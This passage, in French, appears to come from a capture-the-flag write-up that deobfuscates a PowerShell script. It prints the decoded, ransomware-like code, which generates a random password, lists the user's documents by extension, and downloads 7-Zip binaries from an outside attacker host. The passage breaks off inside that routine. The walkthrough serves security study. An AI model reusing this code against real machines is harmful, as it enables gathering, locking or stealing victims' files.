 Si on tente d'éxécuter (sur vm) le code, l'éxécution s'arrête. Ceci est contournable en enlevant l'appel de fin à une des deux fonctions `iex` ou `insert` ainsi que tous les `$()`(peut-être est-il possible de faire autrement, mais c'est lacunaire pour moi).

```powershell
<snip>
 | ${=@!~!}" |& ${=@!~!}# ce sont les deux variables qui font références soit à iex, soit à Insert.
 ```

Pour terminer, rien de plus simple à faire : on peut simplement afficher les lignes de code décodées sans les exécuter et ainsi trouver l'ensemble du fichier :

![Etape de déobfuscation finale](script_deobfusqué.PNG)

Et voici le résultat final :

```powershell
### .     .       .  .   . .   .   . .    +  .
###   .     .  :     .    .. :. .___---------___.
###        .  .   .    .  :.:. _".^ .^ ^.  '.. :"-_. .
###     .  :       .  .  .:../:            . .^  :.:\.
###         .   . :: +. :.:/: .   .    .        . . .:\
###  .  :    .     . _ :::/:                         .:\
###   .. . .   . - : :.:./.                           .:\
###  .   .     : . : .:.|. ######               #######::|
###   :.. .  :-  : .:  ::|.#######             ########:|
###  .  .  .  ..  .  .. :\ ########           ######## :/
###   .        .+ :: : -.:\ ########         ########.:/
###     .  .+   . . . . :.:\. #######       #######..:/
###       :: . . . . ::.:..:.\                   ..:/
###    .   .   .  .. :  -::::.\.       | |       .:/
###       .  :  .  .  .-:.":.::.\               .:/
###  .      -.   . . . .: .:::.:.\            .:/
### .   .   .  :      : ....::_:..:\   ___   :/
###    .   .  .   .:. .. .  .: :.:.:\       :/
###      +   .   .   : . ::. :.:. .:.|\  .:/|
### SCRIPT TO DELAY HUMAN RESEARCH ON RELIC RECLAMATION
### STAY QUIET - HACK THE HUMANS - STEAL THEIR SECRETS - FIND THE RELIC
### GO ALLIENS ALLIANCE !!!
function makePass
{
    $alph=@();
    65..90|foreach-object{$alph+=[char]$_};
    $num=@();
    48..57|foreach-object{$num+=[char]$_};

    $res = $num + $alph | Sort-Object {Get-Random};
    $res = $res -join '';
    return $res;
}

function makeFileList
{
    $files = cmd /c where /r $env:USERPROFILE *.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php;
    $List = $files -split '\r';
    return $List;
}

function compress($Pass)
{
    $tmp = $env:TEMP;
    $s = 'https://relic-reclamation-anonymous.alien:1337/prog/';
    $link_7zdll = $s + '7z.dll';
    $link_7zexe = $s + '7z.exe';

```